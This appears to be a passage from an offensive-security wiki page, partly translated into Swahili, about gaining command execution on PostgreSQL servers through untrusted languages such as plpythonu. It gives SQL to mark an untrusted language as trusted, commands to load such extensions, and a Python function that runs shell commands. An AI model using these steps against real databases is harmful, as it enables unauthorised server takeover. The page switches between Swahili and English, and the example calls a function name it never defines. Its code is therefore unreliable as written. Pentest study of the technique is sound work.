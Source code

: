 Unaweza **kuzipata zinafanya kazi**:
```sql
\dL *

SELECT lanname,lanpltrusted,lanacl FROM pg_language;
```
Most of the scripting languages you can install in PostgreSQL have **2 flavours**: the **trusted** and the **untrusted**. The **untrusted** will have a name **ended in "u"** and will be the version that will allow you to **execute code** and use other interesting functions. This are languages that if installed are interesting:

* **plpythonu**
* **plpython3u**
* **plperlu**
* **pljavaU**
* **plrubyu**
* ... (any other programming language using an insecure version)

{% hint style="warning" %}
If you find that an interesting language is **installed** but **untrusted** by PostgreSQL (**`lanpltrusted`** is **`false`**) you can try to **trust it** with the following line so no restrictions will be applied by PostgreSQL:
```sql
UPDATE pg_language SET lanpltrusted=true WHERE lanname='plpythonu';
# To check your permissions over the table pg_language
SELECT * FROM information_schema.table_privileges WHERE table_name = 'pg_language';
```
{% endhint %}

{% hint style="danger" %}
Ikiwa huoni lugha, unaweza kujaribu kuipakia na (**unahitaji kuwa superadmin**):
```
CREATE EXTENSION plpythonu;
CREATE EXTENSION plpython3u;
CREATE EXTENSION plperlu;
CREATE EXTENSION pljavaU;
CREATE EXTENSION plrubyu;
```
{% endhint %}

Kumbuka kwamba inawezekana kukusanya toleo salama kama "lisilo salama". Angalia [**hii**](https://www.robbyonrails.com/articles/2005/08/22/installing-untrusted-pl-ruby-for-postgresql.html) kwa mfano. Hivyo, kila wakati inafaa kujaribu ikiwa unaweza kutekeleza msimbo hata kama unapata tu toleo **lililoaminika** lililowekwa.

## plpythonu/plpython3u

{% tabs %}
{% tab title="RCE" %}
```sql
CREATE OR REPLACE FUNCTION exec (cmd text)
RETURNS VARCHAR(65535) stable
AS $$
import os
return os.popen(cmd).read()
#return os.execve(cmd, ["/usr/lib64/pgsql92/bin/psql"], {})
$$
LANGUAGE 'plpythonu';

SELECT cmd("ls"); #RCE with popen or execve
```
{% endtab %}
